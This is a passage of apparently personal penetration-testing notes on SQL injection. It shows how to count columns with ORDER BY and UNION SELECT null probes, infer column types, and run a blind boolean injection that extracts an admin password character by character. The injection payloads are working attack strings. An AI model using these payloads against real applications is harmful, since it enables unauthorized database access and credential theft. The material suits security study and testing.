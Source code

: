 ##### Filter Automatically Generated Table Information
- The tables in the database can be REALLY numerous. In these cases, it is useful to find the discriminator in the metadata that distinguishes between automatically generated tables and those created by a programmer/user, and add a filter condition.

##### If You Don't Find, Search Better Instead of Giving Up
- The `information_schema` or its equivalent is present in all DBMS. If you don't find what you're looking for, you're searching wrong.

#### Tips & Tricks
##### Find the Number of Columns
If we don't know the number of columns, we can use group by (examples from [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)):

```sql
1' ORDER BY 1--+    # executed successfully
1' ORDER BY 2--+    # executed
1' ORDER BY 3--+    # executed
1' ORDER BY 4--+    # error
```
In this case, the fourth `ORDER BY` results in an error, which means the fourth column doesn't exist. Another method, which I prefer, is to select various null values in the `UNION` like this:

```sql
1' UNION SELECT null-- - # error
1' UNION SELECT null,null-- - # error
1' UNION SELECT null,null,null-- - # executed
```
Using this method, the query will error until we find the precise number of columns to select. And now it's easier...

##### Find Column Types
We can't always be sure of the column types. A developer may decide to save numbers as varchar or not show a selected column. In such cases, a small modification to the last query shown and the use of mock columns can help find the types of all columns:

```sql
1' UNION SELECT 'a',null,null-- - # error
1' UNION SELECT null,'a',null-- - # error
1' UNION SELECT null,null,'a'-- - # executed
```
So the last column is a varchar.

```sql
1' UNION SELECT 1,null,'a'-- - # executed
1' UNION SELECT null,1,'a'-- - # error
```
So the first column is an integer, and the second is neither an integer nor a varchar.

#### Blind SQLi
Sometimes, a vulnerable field doesn't return an actual result but a boolean value. Think of the example of a vulnerable login: with a logic SQLi, we can access any account we want. Blind SQLi allows us to go further, potentially extracting the entire database with a simple true/false.

`Christian_C' UNION SELECT 1 FROM users WHERE username='admin' AND password LIKE 'a%' -- `. If the first letter of the admin's password is `a`, we'll be logged in as `Christian_C`. Make sure this makes sense in your head.
